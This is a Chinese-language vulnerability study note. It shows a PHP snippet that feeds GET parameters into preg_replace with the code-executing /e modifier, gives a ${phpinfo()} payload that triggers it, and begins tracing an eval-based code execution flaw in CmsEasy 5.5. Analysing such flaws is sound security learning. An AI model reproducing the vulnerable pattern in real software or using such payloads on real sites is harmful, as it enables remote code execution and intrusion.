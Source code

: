 ```php
header("Content-Type: text/plain");

function complexStrtolower($regex, $value) {
  return preg_replace(
    '/(' . $regex . ')/ei',
    'strtolower("\\1")',
    $value
  );
}

foreach ($_GET as $regex => $value) {
  echo complexStrtolower($regex, $value) . "\n";
}
```

- preg_replace(函数执行一个正则表达式的搜索和替换)

```php
mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
```

**$pattern 存在 /e 模式修正符，允许代码执行**
**/e 模式修正符，是 preg_replace() 将 $replacement 当做php代码来执行**

**将GET请求传过来的参数通过complexStrtolower函数执行，preg_replace函数存在e修正符**

- payload

```php
\S*=${phpinfo()} 
```
#### 参考

[深入研究preg_replace与代码执行](https://xz.aliyun.com/t/2557)

### CmsEasy 5.5

- 环境搭建

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200510160914.png)

#### 漏洞分析

- lib/tool/form.php:90

**如果$form[$name]['default']内容被匹配到就会执行eval**

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200510161952.png)

- cache/template/default/manage/#guestadd.php:175

**全局搜索getform，主要注意catid是作为$name的**

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200510162528.png)

